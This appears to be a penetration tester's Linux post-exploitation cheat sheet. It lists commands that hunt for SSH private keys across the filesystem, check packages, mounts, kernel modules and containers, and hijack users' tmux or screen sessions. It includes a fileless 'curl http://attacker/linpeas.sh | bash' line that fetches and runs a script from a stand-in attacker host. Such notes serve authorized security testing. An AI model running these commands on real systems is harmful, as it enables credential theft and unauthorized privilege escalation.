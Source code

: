 ```bash

find / -name "*id_rsa*" -type f  -ls 2>/dev/null
find / -name "*id_dsa*" -type f  -ls 2>/dev/null


dpkg -l   # list packages on Debian boxes
dpkg -V   # Verify their authenticity
 - a "5" in the 3rd column indicates the binary doesn't match the expected md5
 - a "c" indicates it's a config file, so changes might be expected
 - you can probably  ignore any entries that complain about not having access


cat /etc/fstab    # file systems?
mount         # what's mounted and how?
/bin/lsblk    # USB?

# What kernel modules are loaded? Maybe exploitable
lsmod
/sbin/modinfo <MODULENAME>




tmux ls
screen -ls

# Are we in a docker / lxc container?
grep 'docker\|lxc' /proc/1/cgroup 
ls -latr /.dockerenv

```

linPEAS is fantastic, drop and execute if you can. Pipe to a file and pull it back. Make sure you check out any linked articles.

get the latest version here: https://github.com/carlospolop/PEASS-ng/releases/download/20230531-352dc4bf/linpeas.sh

Even better, run it completely filelessly. Serve it up with an http server (eg. python3 -m http.server 80) and then:
`ssh targetip 'curl http://attacker/linpeas.sh | bash ' | tee lp.txt`

To read it, `less -rf`



For both screen and tmux, make sure you take a look at .tmuxrc and .screenrc to ensure you understand the key bindings, which may not be default.
Connecting to an existing session, to an actively used window by a real user could result in observable side effects. Be careful.

## Reattach to tmux 
```
tmux ls
tmux -S <tmux session file>
```
